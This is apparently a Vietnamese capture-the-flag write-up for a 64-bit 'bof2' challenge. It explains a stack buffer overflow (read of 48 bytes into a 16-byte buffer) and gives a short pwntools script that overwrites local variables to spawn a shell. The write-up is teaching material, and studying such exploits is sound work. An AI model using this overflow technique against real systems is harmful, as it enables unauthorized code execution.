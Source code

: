 **1. Tìm lỗi**

Chạy thử file ta có:

![run.png](photo/run.png)

Dùng lệnh 'file' để kiểm tra:

```
bof2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f1416e8c63ea6cff8924f86a8125db99c1023931, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta được

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 == 0x13371337 && v6 == 0xDEADBEEFLL && v5 == 0xCAFEBABELL )
    system("/bin/sh");
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 16 byte và các biến v5, v6, v7 và v8. Biến v8 được khởi tạo bằng 0 và các biến còn lại được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) nhưng biến buf được khai báo 16 byte -> Có lỗi bof

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Nếu các biến v5, v6 và v7 có giá trị tương ứng là 0xCAFEBABELL, 0xDEADBEEFLL và 0x13371337, hàm system được gọi.

**2. Ý tưởng**

Có lỗi bof nên nhập hết biến buf bằng byte rác đến các biến v5, v6, v7 rồi chèn các giá trị tương ứng vào.

**3. Khai thác**

```
   0x0000000000401223 <+70>:    lea    rax,[rbp-0x30]
   0x0000000000401227 <+74>:    mov    edx,0x30
   0x000000000040122c <+79>:    mov    rsi,rax
   0x000000000040122f <+82>:    mov    edi,0x0
   0x0000000000401234 <+87>:    call   0x4010a0 <read@plt>
```

Biến buf đang cách rbp là 0x30 byte

```
   0x00000000004012a2 <+197>:   cmp    QWORD PTR [rbp-0x10],0x13371337
   0x00000000004012aa <+205>:   jne    0x4012ce <main+241>
   0x00000000004012ac <+207>:   mov    eax,0xdeadbeef
   0x00000000004012b1 <+212>:   cmp    QWORD PTR [rbp-0x18],rax
   0x00000000004012b5 <+216>:   jne    0x4012ce <main+241>
   0x00000000004012b7 <+218>:   mov    eax,0xcafebabe
   0x00000000004012bc <+223>:   cmp    QWORD PTR [rbp-0x20],rax
   0x00000000004012c0 <+227>:   jne    0x4012ce <main+241>
```

Các biến v5, v6,v7 cần so sánh đang cách rbp là 0x20, 0x18, 0x10 với các giá trị tương ứng để thực thi system là: 0xcafebabe, 0xdeadbeef, 0x13371337.

Ta cần viết payload tương ứng với: 0x30->0x20 là byte rác, 0x20->0x18 là 0xcafebabe, 0x18->0x10 là 0xdeadbeef, 0x10->đâu đó không biến là 0x13371337. Từ 0x20 -> 0x18 và 0x18 -> 0x10 đêu 8 byte nên khi p64 mấy giá trị đó cũng chứa đủ 8 byte rồi.

Ta có script như sau:

```
from pwn import *

r = process('./bof2')

payload = b'a'*(0x30-0x20) + p64(0xcafebabe) + p64(0xdeadbeef) + p64(0x13371337)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
